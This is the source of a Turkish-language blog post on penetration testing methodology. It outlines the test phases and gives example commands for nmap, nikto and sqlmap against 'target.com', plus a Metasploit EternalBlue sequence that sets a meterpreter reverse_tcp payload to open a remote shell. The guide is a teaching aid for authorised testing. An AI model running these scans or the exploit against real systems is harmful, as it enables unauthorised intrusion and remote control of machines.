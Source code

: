 ```yaml
---
publishDate: 2024-06-15T00:00:00Z
title: Penetrasyon Testi Metodolojileri ve En İyi Uygulamalar
excerpt: Profesyonel penetrasyon testlerinin nasıl planlanacağı, yürütüleceği ve raporlanacağına dair kapsamlı rehber.
image: https://images.unsplash.com/photo-1550751827-4bd374c3f58b?q=80&w=2070&auto=format&fit=crop&ixlib=rb-4.1.0
category: Siber Güvenlik
tags:
  - penetrasyon testi
  - etik hackleme
  - güvenlik testleri
  - OWASP
metadata:
  canonical: https://bgs.io/penetrasyon-testi-rehberi
---
```



## Penetrasyon Testinin Temel Aşamaları

<DListItem dt="Planlama ve Kapsam Belirleme">
  Test edilecek sistemler, kullanılacak yöntemler ve yasal çerçeve detaylandırılır.
</DListItem>

<DListItem dt="Keşif ve Bilgi Toplama">
  Pasif ve aktif keşif teknikleri ile hedef sistem hakkında bilgi edinilir.
</DListItem>

<DListItem dt="Zafiyet Analizi">
  Sistemdeki güvenlik açıkları tespit edilir ve önceliklendirilir.
</DListItem>

<DListItem dt="Sızma ve Sömürü">
  Tespit edilen zafiyetler kontrollü şekilde sömürülür.
</DListItem>

## Penetrasyon Testi Araçları

```bash
# Nmap ile Port Tarama
nmap -sS -sV -O target.com

# Nikto ile Web Zafiyet Tarama
nikto -h http://target.com

# Sqlmap ile SQL Injection Testi
sqlmap -u "http://target.com/page?id=1" --dbs
```

### Metasploit Framework Kullanımı

```ruby
# Metasploit Console
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
exploit
```